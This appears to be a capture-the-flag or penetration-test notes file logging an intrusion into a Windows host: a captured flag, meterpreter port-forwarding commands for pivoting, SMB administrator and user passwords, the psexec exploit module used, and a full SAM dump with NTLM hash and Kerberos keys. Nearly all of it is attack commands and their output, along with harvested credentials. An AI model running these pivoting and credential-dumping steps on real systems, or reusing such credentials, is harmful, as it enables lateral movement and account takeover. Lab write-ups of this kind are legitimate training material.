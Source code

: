 ## flag.txt
2ebff64df4bf470eacb0895c64f73765



# Pivoting:

	meterpreter > portfwd add -l 8080 -p 80 -r 192.168.0.50

Other port:

	meterpreter > portfwd add -l 8800 -p 51265 -r 192.168.0.50



# **192.168.100.55 WINSERVER-03:**

## **SMB Password:**
[445][smb] host: 192.168.100.55   login: administrator   password: swordfish

Exploit used:

	exploit/windows/smb/psexec

mary:hotmama
lawerence:computadora
# **SAM Hash Dump:**

	meterpreter > lsa_dump_sam 
	[+] Running as SYSTEM
	[*] Dumping SAM
	Domain : WINSERVER-03
	SysKey : 377af0de68bdc918d22c57a263d38326
	Local SID : S-1-5-21-3688751335-3073641799-161370460
	
	SAMKey : 858f5bda5c99e45094a6a1387241a33d
	
	RID  : 000001f4 (500)
	User : Administrator
	  Hash NTLM: 61fb34469b9989b01be4e8630c52eed6
	
	Supplemental Credentials:
	* Primary:NTLM-Strong-NTOWF *
	    Random Value : 175efbb78f36bf76ccff7a9b7b5d95e3
	
	* Primary:Kerberos-Newer-Keys *
	    Default Salt : WINSERVER-03Administrator
	    Default Iterations : 4096
	    Credentials
	      aes256_hmac       (4096) : f79e74b4197b479c982426c1e5eef127c4bbcb39c2cdb918684611957380847b
	      aes128_hmac       (4096) : 9898be3f664b9195b9cf4c9dcb024cb5
	      des_cbc_md5       (4096) : 327f1f5462d6254f
	    OldCredentials
	      aes256_hmac       (4096) : 69d101a02f3f4648bf9875f10c1cd268d3f500c3253ab862222a9e1bb3740247
	      aes128_hmac       (4096) : 3c3fd899f7f004ed44e9e48f868a5ddc
	      des_cbc_md5       (4096) : 9b808fb9e0cbb3b5
	    OlderCredentials
	      aes256_hmac       (4096) : 4cbbe8ad8482ca76952b08cd9103ba91af35c9d8b21a3d49c332e072618a9fa9
	      aes128_hmac       (4096) : b18addd75f8a2b106b262c7b5e517623
	      des_cbc_md5       (4096) : 7fe0c2a15eb32fcd
	